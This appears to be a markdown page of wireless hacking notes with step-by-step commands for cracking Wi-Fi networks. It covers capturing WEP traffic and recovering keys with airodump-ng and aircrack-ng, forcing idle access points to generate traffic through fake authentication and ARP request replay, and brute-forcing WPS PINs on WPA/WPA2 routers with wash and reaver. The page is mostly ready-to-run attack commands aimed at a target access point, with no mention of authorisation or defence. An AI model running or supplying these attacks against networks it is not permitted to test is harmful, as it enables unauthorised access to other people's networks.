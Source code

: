 ```yaml
---
description: breaking wep, wpa, wpa2 ectc.
---
```


# Wifi Cracking

### wep hacking

#### Busy wep Networks:

> Note: this methods works on a busy network where the  "#Data" column value increases at a very fast rate.

1. we have to capture a large number of packets for this to work, using the airodump-ng utility.

```bash
airodump-ng --bssid 98:A9:42:27:A2:CA --channel 2 --write wep_capture wlan0mon
```

2. we then use the aircrack-ng utility to crack the password using the captured .cap file.

```bash
aircrack wep_capture.cap
```

3. key found in the `KEY FOUND! [22:22:22:22:22]` remove the columns, then use the password to connect to the wep network.

#### Idle wep Networks:

> In a network thats not busy: you can force the AP to generate new packets new IVs.

**Solution:** Associate with the AP before launching the attack.

1. run a scan with airodump-ng utility.

```
airodump-ng --bssid 98:A9:42:27:A2:CA --channel 2 --write arp_replay wlan0mon
```

2. run the aireplay-ng utility to establish "an Association" with the target network. `--fakeauth 0` denotes running a fake authentication attack once, `-c` mac addr of the target AP, `-h` mac addr of our wlan0mon adapter and the name of the adapter.

```
aireplay-ng --fakeauth 0 -a 98:A9:42:27:A2:CA -h 11:22:33:44:55:66 wlan0mon
```

3. forcing the AP to generate new IVs (ARP Request Replay). This is done by:

* wait for an arp packet.
* capture it, and replay it (retransmit it).
* this causes the AP to produce another packet with a new IV.
* keep doing this till you have enough IVs to crack the key.

4. To carry out the attack, after following steps 1 and 2 for the busy wep networks, then;

`-b` denotes the target mac addr, `--arpreplay` for an arp replay attack.

```
aireplay-ng --arpreplay -b 98:A9:42:27:A2:CA -h 11:22:33:44:55:66 wlan0mon
```

Just wait for some time, then after receiving enough  packets in the `#Data` column, you can now run `aircrack-ng` to crack password. Allow the `airodump-ng` utility to continue running while running the `aircrack-ng` utility.



### wpa / wpa2 hacking.

`wash --interface wlan0mon` a wps recon tool to search around for wps enabled AP/routers.

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption><p><code>wash</code></p></figcaption></figure>

`aireplay-ng --fakeauth 30 -a targetMacAddr -c wirelessAdapterMacAddr wlan0mon` This creates association with the target network every 30 seconds.

`reaver --bssid targetBssid --channel targetChannel -i wlan0mon -vvv --no-associate` running reaver to carryout bruteforcing.

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>



